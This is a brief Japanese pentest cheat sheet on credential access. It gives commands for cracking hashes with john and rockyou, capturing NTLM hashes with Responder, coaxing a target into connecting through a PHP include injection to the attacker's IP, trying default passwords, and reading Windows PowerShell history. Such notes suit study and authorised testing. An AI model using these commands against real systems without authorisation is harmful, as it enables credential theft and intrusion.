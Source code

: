 # 資格情報アクセス

## アプリケーションに含まれる情報
・.jarの情報はJD-GUIで見れる
    ・Spring Bootを使用していればapplication.propertiesで見れる


## パスワードハッシュ解析
DB等から取得したパスワードハッシュを復元することで、パスワードを使いまわしている場合に別システムに侵入できる
johnでパスワード解析できる
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```
Kali Linuxであれば/user/share/wordlistsにrockyouの圧縮されたファイルがある。

## NTLMハッシュの取得

### Responder
```
responder -I tun0
```
Responderを使用することで様々な通信を受けることができる

### 攻撃対象からResponderへの通信を発生させる
responderを起動した後、攻撃対象のWebアプリケーション等に対して外部のファイルを取得するように動かす
```
例：PHPでinclude(//<受けのIPアドレス>/somefile)を実行されるようCodeInjectionを行うなど
```
取得できたハッシュをjohnなどで解析する

## デフォルトパスワードの使用
サービスごとのデフォルトパスワードでログインできないか試行する。

https://cirt.net/passwords

## Powershellの履歴取得
以下の場所からPowerShellのコマンド実行履歴を取得できる

```
type C:\Users\<ユーザ>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```